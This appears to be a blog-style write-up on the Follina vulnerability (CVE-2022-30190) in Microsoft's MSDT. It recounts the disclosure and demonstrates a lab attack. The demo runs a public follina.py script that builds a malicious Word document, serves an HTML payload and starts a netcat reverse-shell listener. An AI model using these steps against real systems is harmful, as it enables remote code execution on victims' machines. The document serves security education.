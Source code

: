 # CVE-2022-30190 MS-MSDT with Follina Attack Vector 

> Deniz Koc | June 9, 2022

--------------




On May 30, 2022, Microsoft issued CVE-2022-30190 regarding the Microsoft Support Diagnostic Tool (MSDT) in Windows vulnerability.It is basically a remote code execution technique used through MSDT and MS Office program, namely Microsoft Word. 



# How it entered the radar?

![Screenshot from 2022-06-09 03-01-49](https://user-images.githubusercontent.com/74410580/172809166-2b45b02b-9dc1-44a2-9fd3-e8e6f6d89ca7.png)


On may 27, there was a tweet by Nao-sec who is security researcher trying different attack vectors targeting cve 2021-40444 which was a previous vulnerability taking advantage mhtml(MIME encapsulation of aggregate HTML document) protocol to get initial access with just a simple office document.

Nao-sec found some compelling document which was using external reference inside the MS word document that would call out to an external HTML file. That HTML file would stage and load powershell code using MSDT Uniform Resource Identifier (URI)  protocol in windows. 



A former Microsoft employed security researcher Kevin Beaumont named the vulnerability “Folina,” because the 0 day code references 0438, that's the place code for Follina, Italy. Beaumont referred to that Defender for Endpoint did now no longer hit upon the exploit, which retrieves an HTML file from a remote webserver and lets in PowerShell code execution.


# Explanation of the exploit

This attack vector only needs one thing which a user downloads a malicious office documents and they open it or just navigate to it.
I myself use my ubuntu machine and and download python file that is from John Hammond github page https://github.com/JohnHammond/msdt-follina 

To create malicious word document and stage a payload with an http server 


```
$ python3 follina.py -i (network interface) -r (port number for reverse shell)  
[+] copied staging doc /tmp/g5y17w2c
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
[+] starting 'nc -lnvp 9001
Listening on 0.0.0.0 9001

```
<br> 


![Screenshot from 2022-06-09 01-46-32](https://user-images.githubusercontent.com/74410580/172817080-43919074-fcaf-4af0-b690-ee3cba32d059.png)



<br>

On windows machine as a victim, open up microsoft word documents as you might any other document except this one in particular includes external reference to an another location and executes it.



![Untitled](https://user-images.githubusercontent.com/74410580/172826268-6170639b-cea7-4639-bef7-dec20a7e7f84.png)








